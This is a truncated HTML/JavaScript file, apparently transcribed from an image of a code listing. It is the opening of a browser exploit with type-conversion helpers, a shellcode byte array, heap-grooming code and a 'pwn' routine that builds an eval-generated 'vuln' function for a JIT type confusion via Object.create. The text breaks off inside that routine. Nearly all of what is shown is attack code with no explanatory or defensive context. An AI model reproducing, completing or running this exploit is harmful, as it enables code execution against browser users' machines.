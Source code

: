 ```html
<!DOCTYPE html>
<html>
    <head>
        <script>
        log = console.log;
        print = alert;
        // We need some space later
        let scratch = new ArrayBuffer(0x100000);
        let scratch_u8 = new Uint8Array(scratch);
        let scratch_u64 = new BigUint64Array(scratch);
        scratch_u8.fill(0x41, 0, 10);
        let shellcode = new Uint8Array(4);
        shellcode[0] = 0xcc;
        shellcode[1] = 0xbe;
        shellcode[2] = 0x20;
        shellcode[3] = 0x18;
        let ab = new ArrayBuffer(8);
        let floatView = new Float64Array(ab);
        let uint64View = new BigUint64Array(ab);
        let uint8View = new Uint8Array(ab);
        Number.prototype.toBigInt = function toBigInt() {
            floatView[0] = this;
            return uint64View[0];
        };
        BigInt.prototype.toNumber = function toNumber() {
            uint64View[0] = this;
            return floatView[0];
        };
        function hex(n) {
            return '0x' + n.toString(16);
        };
        function fail(s) {
            print('FAIL ' + s);
            throw null;
        }
        const NUM_PROPERTIES = 32;
        const MAX_ITERATIONS = 100000;
        function gc() {
            for (let i = 0; i < 200; i++) {
                new ArrayBuffer(0x100000);
            }
        }
        function make(properties) {
            let o = {inline: 42}      // TODO
            for (let i = 0; i < NUM_PROPERTIES; i++) {
                eval(`o.p${i} = properties[${i}];`);
            }
            return o;
        }
        function pwn() {
            function find_overlapping_properties() {
                let propertyNames = [];
                for (let i = 0; i < NUM_PROPERTIES; i++) {
                    propertyNames[i] = `p${i}`;
                }
                eval(`
                    function vuln(o) {
                        let a = o.inline;
                        this.Object.create(o);
                        ${propertyNames.map((p) => `let ${p} = o.${p};`).join('\n')}
                        return [${propertyNames.join(', ')}];
                    }
                `);
```